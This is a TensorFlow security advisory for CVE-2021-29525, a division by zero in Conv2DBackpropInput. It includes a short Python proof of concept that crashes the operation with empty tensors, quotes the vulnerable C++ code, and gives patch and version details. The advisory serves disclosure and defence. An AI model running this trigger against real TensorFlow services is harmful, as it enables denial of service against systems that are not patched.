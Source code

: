 ## TFSA-2021-014: Division by 0 in `Conv2DBackpropInput`

### CVE Number
CVE-2021-29525

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.Conv2DBackpropInput`:

```python
import tensorflow as tf

input_tensor = tf.constant([52, 1, 1, 5], shape=[4], dtype=tf.int32)
filter_tensor = tf.constant([], shape=[0, 1, 5, 0], dtype=tf.float32)
out_backprop = tf.constant([], shape=[52, 1, 1, 0], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropInput(input_sizes=input_tensor, filter=filter_tensor,
                               out_backprop=out_backprop, strides=[1, 1, 1, 1],
                               use_cudnn_on_gpu=True, padding='SAME',
                               explicit_paddings=[], data_format='NHWC',
                               dilations=[1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/b40060c9f697b044e3107917c797ba052f4506ab/tensorflow/core/kernels/conv_grad_input_ops.h#L625-L655) does a division by a quantity that is controlled by the caller:

```cc
  const size_t size_A = output_image_size * dims.out_depth;
  const size_t size_B = filter_total_size * dims.out_depth;
  const size_t size_C = output_image_size * filter_total_size;
  const size_t work_unit_size = size_A + size_B + size_C;
  ...
  const size_t shard_size =
      use_parallel_contraction ? 1 :
      (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

### Patches
We have patched the issue in GitHub commit
[2be2cdf3a123e231b16f766aa0e27d56b4606535](https://github.com/galeone/tensorflow/commit/2be2cdf3a123e231b16f766aa0e27d56b4606535).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
